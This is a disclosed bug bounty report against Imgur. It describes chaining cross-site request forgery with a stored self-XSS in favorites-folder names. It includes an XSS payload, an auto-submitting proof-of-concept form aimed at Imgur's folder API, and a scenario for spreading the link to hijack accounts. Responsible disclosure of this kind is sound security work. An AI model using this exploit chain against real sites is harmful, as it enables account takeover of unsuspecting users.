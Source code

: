 # CSRF leads to a stored self xss

## Report Details
- **Report ID**: 323005
- **URL**: https://hackerone.com/reports/323005
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-03-06T23:34:16.814Z
- **Disclosed**: 2019-08-30T05:31:40.974Z

## Reporter
- **Username**: hogarth45
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: imgur

## Vulnerability Information
Followup from #311460

#Summary
Self xss and CSRF are both out of scope, but when paired it is possible to create an attack on a user.

#Description
A favorites folder with an xss payload for a name will launch when saving an image to said folder.

This can be verified by following these steps
* Visit your favorites
* Create New Folder
* Change name to
```
"'><img src=x onerror=prompt(1)>
```
* Save
* Visit a photo
* Click the little plus next to the heart on bottom left of image
* Add to the folder
* xss will launch

Since self xss is out of scope, we will need a method of delivering this attack to a user.
This can be done via a CSRF to create a favorites folder.

# POC

Using a form like so to create the CSRF:
```
<html>
<body onload='document.forms[0].submit()'>
  <form method='POST' enctype='application/json' action='https://api.imgur.com/3/folders'>
    <input name='name' value='New Test"><img src=x onerror=prompt(2)>'>
    <input name='is_private' value='false'>
  </form>
</body>
</html>
```

Or be logged into your imgur account and visit

http://blackdoorsec.net/sandbox/imgur2.html

This will create the folder with an xss name that can be used to attack an account.

## Impact

account hijacking
since a user would still need to add an image to the folder for the attack to work, the success rate will be lower than normal

#Scenerio
since reddit/imgur communities overlap malicious links containing the CSRF could be sent throughout the site. out of the few thousand hits the link would get, i imagine there would be several successful compromised imgur accounts.

## Attachments
No attachments
